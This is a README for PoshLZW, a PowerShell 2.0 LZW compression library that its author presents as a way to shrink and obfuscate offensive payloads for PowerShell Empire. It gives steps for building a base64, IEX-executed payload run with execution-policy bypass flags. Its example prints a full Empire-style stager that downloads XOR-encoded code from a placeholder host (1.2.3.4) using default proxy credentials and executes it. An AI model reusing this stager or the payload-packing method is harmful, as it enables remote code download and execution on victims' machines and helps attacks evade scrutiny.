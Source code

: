 License
-------

DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE 

Version 2, December 2004 
                    
Copyright (C) 2004 Sam Hocevar <sam@hocevar.net> 

Everyone is permitted to copy and distribute verbatim or modified 

copies of this license document, and changing it is allowed as long 

as the name is changed. 

DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE 
           
TERMS AND CONDITIONS FOR COPYING, DISTRIBUTION AND MODIFICATION 

0. You just DO WHAT THE FUCK YOU WANT TO.



Powershell developper ?
-----------------------
I'm far away from a real Powershell developper, so be free to propose improvements and code size reduction tricks.


PoshLZW
--------
`PowerShell LZW` is a LZW compression/decompression library for Powershell 2.0


Powershell 2.0 ?
----------------
By default, if you wanna have compatility you'll have to use v2.0, as it's the case for PowerShell Empire.


iCodingSize !!?
---------------
LZW work by building a ephemeral dictionnary, feeded then by following bytes. The main idea is to encode bytes not on 8-bits but on iCodingSize-bits (9 to 15).

Why min at 9 ? 'cause less would mean size growth.

Why max at 15 ? Well... why not ;-)

So for example, 4-bytes can be encoded only on 9 bits (if you choose an iCodingSize value of 9 and if it's in the dictionnary).

This value is also the maximum size of the dictionnary : 2^iCodingSize-1.

It's stored in the output at index 0, encoded on 8-bits (a normal byte).


Five functions
---------------
Five Long functions :
* Bits-Shift : a simple bits shifting function that don't fucking exists in Powershell 2 !!?
* Bits-Read : read n-bits from an array of Bytes, at a certain position
* Bits-Write : write n-bits to an array of Bytes, at a certain position
* LZWCompress : Compress
* LZWDecompress : Decompress

These too long functions have been manually shortened to save space:
* bs (for Bits-Shift), 62 bytes long
* br (for Bits-Read), 225 bytes long
* bw (for Bits-Write), 247 bytes long
* lzwc (for LZWCompress), 395 bytes long
* lzwd (for LZWDecompress), 345 bytes long

Could certainly be optimized ;-)


Powershell script intended to be executed
-----------------------------------------
To use LZW it's simple :

1/ Declare functions (or import-module PoshLZW.ps1)

	PS> $m_=[math];
	PS> function bs{...
	PS> function bw{...
	PS> function lzwc{...



2/ compress your powershell script :

  PS> $MyScript = "write-host 'Hello World';";

  PS> $lz = lzwc $MyScript 10;


3/ encode the compressed script in base64

  PS> $lz64 = [convert]::ToBase64String($lz);



4/ Build the payload with the overhead :

  PS> $payload = '$m_=[math];';

  PS> $payload+= 'function bs{...' + 'function br{...' + 'function lzwd{...';

  PS> $payload+= 'IEX(lzwd ([byte[]]([System.Convert]::FromBase64String("'+$lz64+'"))))';


Then you can execute the payload with #>powershell -nop -noni -ex bypass -c here-the-payload.

But take care about the command line size ;-)



Good rate ?
----------------
Here you'll find a comparison table of different payloads.
* Text : normal ps1 file/payload, without optimisation.
* H : overhead of 701 bytes (LZWDecompress, Bits-Read, Bits-Shift and IEX).
* 9-15 : iCodingSize, meaning encoding size in bits and also dictionnary size.
A way to use compression could be to run "powershell -c H+B64(LZW(T,9))"

 
|                      | Launcher | Stager |  Agent  |
|----------------------|----------|--------|---------|
|       Text as T      |   418    |  4 909 |  44 041 |
| B64(T)     | 1 116    | 13 092 | 117 444 |
|           LZW(T,9)   |   387    |  3 740 |  27 878 |
|     H+B64(LZW(T,9)   | 2 051    | 13 877 |  97 516 |
| B64(H+B64(LZW(T,9))  | 5 472    | 37 008 | 260 044 |
|           LZW(T,10)  |   426    |  3 260 |  24 934 |
|     H+B64(LZW(T,10)  | 2 112    | 12 127 |  85 885 |
| B64(H+B64(LZW(T,10)) | 5 632    | 32 340 | 229 028 |
|           LZW(T,11)  |   469    |  3 145 |  20 474 |
|     H+B64(LZW(T,11)  | 2 261    |*11 576*|  72 444 |
| B64(H+B64(LZW(T,11)) | 6 032    | 30 872 | 193 184 |
|           LZW(T,12)  |   511    |  3 373 |  18 312 |
|     H+B64(LZW(T,12)  | 2 237    | 11 600 |  63 583 |
| B64(H+B64(LZW(T,12)) | 5 968    | 30 936 | 169 556 |
|           LZW(T,13)  |   554    |  3 654 |  16 589 |
|     H+B64(LZW(T,13)  | 2 426    | 12 788 | *58 306*|
| B64(H+B64(LZW(T,13)) | 6 472    | 34 104 | 155 484 |
|           LZW(T,14)  |   596    |  3 935 |  17 545 |
|     H+B64(LZW(T,14)  | 2 481    | 13 243 |  59 852 |
| B64(H+B64(LZW(T,14)) | 6 616    | 35 316 | 159 608 |
|           LZW(T,15)  |   639    |  4 216 |  18 798 |
|     H+B64(LZW(T,15)  | 2 611    | 13 944 |  63 437 |
| B64(H+B64(LZW(T,15)) | 6 964    | 37 184 | 169 168 |



Example
-------

Stats
    $ PS > $text = '$Wc=NEW-ObjEcT SYStEM.Net.WEBCliENT;$u="Test/5.0 (Windows NT 5.1; Trident/1.0;) like Gecko";$wc.HeADerS.ADD("User-Agent",$u);$wc.ProXY = [SYSTem.Net.WEBREQuEsT]::DEFAulTWebPROXY;$WC.PRoxy.CReDEnTIaLS = [SYStEM.NET.CRedEnTiALCACHe]::DEFAulTNetwORKCredenTiaLs;$K="aaaaaaaabbbbbbbbcccccccceeeeeeee";$I=0;[chAr[]]$b=([CHAr[]]($wC.DowNlOaDSTRing("http://1.2.3.4:80/index.asp")))|%{$_-BXoR$k[$i++%$k.LeNgTH]};IEX ($B-jOIn"")';
    $ PS > #$text = [System.Text.Encoding]::ASCII.GetString([System.IO.File]::ReadAllBytes("stager.ps1"));
    $ PS > #$text = [System.Text.Encoding]::ASCII.GetString([System.IO.File]::ReadAllBytes("agent.ps1"));
    $ PS > write-host "|                 Text   |" $text.length
    $ PS > write-host "|             B64(Text)  |" ([Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($text))).length
    $ PS > foreach ($i in 9..15){
    $ PS > 	$lzw = lzwc $text $i;
    $ PS > 	write-host "|           LZW(T,$i)  |" $lzw.length;
    $ PS > 	$64lzw = [convert]::ToBase64String($lzw);
    $ PS > 	$overhead='$m_=[math];function bs{param($v,$s)return $m_::Floor($v*$m_::Pow(2,-$s))}function br{param($o,$c,$a)$p=$i=$e=0;$j=$m_::floor(($t=$a.value)*$c/8);$s=($r=8-(($t*$c)%8))-$c;$b=$m_::Pow(2,$c)-1;while($e-lt$c){$p=$p-bor((bs $o[$j+$i] $s)-band$b);$e+=$r;$r=$m_::max($r,8);$s+=8;$i++}$a.value++;return $p}';
    $ PS > function lzwd{param($p)$a=$j=0;$v=@();$e=$o="";$c=$p[0];$p=$p[1..$p.length];foreach($i in 0..255){$v+=[string]([char]$i)}$o+=($w=[string]$v[($j=br $p $c ([ref]$a))]);while([math]::floor($a*$c/8)-lt($p.length-1)){$l=$v.count;$j=br $p $c ([ref]$a);$o+=$v[$j];if($j-lt$l){$e=[string]$v[$j]}elseif($j-eq$l){$e=$w+$w[0]}$v+=$w+$e[0];$w=$e}return $o;}IEX(lzwd ([byte[]]([System.Convert]::FromBase64String("'+$lzw+'"))))';
    $ PS > 	write-host "|     H+B64(LZW(T,$i)  |" $overhead.length;
    $ PS > 	$b64hz = [convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($overhead));
    $ PS > 	write-host "| B64(H+B64(LZW(T,$i)) |" $b64hz.length;
    $ PS > }

Last word ?
-----------

         ///\\\  ( Have Fun )
        ( ^  ^ ) /
      __(  __  )__
     / _ `----' _ \
     \__\   _   |__\
      (..) _| _ (..)
       |____(___|     Mynameisv_ 2016
_ __ _ (____)____) _ _________________________________ _'